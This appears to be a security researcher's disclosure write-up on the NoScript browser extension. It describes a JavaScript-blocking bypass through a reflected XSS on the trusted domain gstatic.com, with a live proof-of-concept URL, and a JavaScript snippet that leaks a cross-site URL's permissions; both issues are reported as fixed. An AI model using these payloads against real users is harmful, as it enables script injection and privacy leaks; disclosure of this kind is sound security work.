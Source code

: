 ```yaml
---
title: NoScript part 2
---
```


See <https://ndevtk.github.io/writeups/2022/09/01/noscript/> for context about what NoScript is.

# Bypass to run Javascript

This extension comes preinstalled with a list of trusted websites where javascript is allowed to run, this includes `gstatic.com` that Google treats as a sandbox domain. <https://github.com/hackademix/noscript/blob/cc0471fe52a069b73b20b5e4213f54e8699a3052/src/bg/Settings.js#L218>

While my favorite `gstatic.com` XSS endpoint was over `postMessage` it wont work for this since I can't run javascript to send a message luckily the Google Security Team provided me with the location of a URL reflected XSS 🙂

PoC: <https://www.gstatic.com/vr/ads/playground/metrics.html#assetUrl=https://tinyurl.com/2yrfxf5a>

Normally on Firefox this would have been prevented by NoScript's anti-XSS protection however by reusing the iframe source XSS sink as a way to navigate to the XSS page in the embed it would be considered same-origin initiated which is exempt from the filter.  
There's no XSS filter at all for Chromium, "please don't use Chromium-based browsers with privacy/security extensions, they'll always be inferior there because of Google's terrible WebExtensions API implementation and design choices".

This anti-XSS bypass was fixed in <https://github.com/hackademix/noscript/commit/10e2c40c1ca55ee7482705c47d2b3ec41aded4f7> but the sandbox domain is still marked as trusted for compatibility.

May also be other ways to bypass NoScript since there's no way of knowing if code running on <https://code.earthengine.google.com/> or a sandboxed ‘null’ origin iframe is safe.

...Ideally don't have any sandbox domains in your NoScript permissions or even better the least amount necessary, not the first time the default list has been vulnerable <https://thehackerblog.com/the-noscript-misnomer-why-should-i-trust-vjs-zendcdn-net/>

# Leaking the permissions of a cross-site URL

Yay XS-Leaks! (Mainly privacy concern)

```js
async function getPermissions(url) {
  const result = await fetch(
    'https://[ff00::]/nscl/chrome-extension://doojmbjmlfjjnbmnoijecmcbfeoakpjm/syncMessage?msg=' +
      encodeURIComponent(JSON.stringify({id: 'fetchChildPolicy', url: url}))
  );
  const body = await result.json();
  const chunk = JSON.parse(body.chunk);
  return chunk;
}
```

This was fixed in <https://github.com/hackademix/nscl/commit/c3fd029c9c08c472601dcff1fbc3c0edcaf98c27> and only worked on chromium based browsers.

# Some other interesting behaviors

- Tries to implement its own version of CORS <https://github.com/hackademix/nscl/blob/9f59d8d823cc58b2a9c751b4db7715658b68cc67/service/prefetchCSSResources.js#L59>
- Hooks service worker registration <https://github.com/hackademix/nscl/blob/9f59d8d823cc58b2a9c751b4db7715658b68cc67/service/patchWorkers.js#L61>
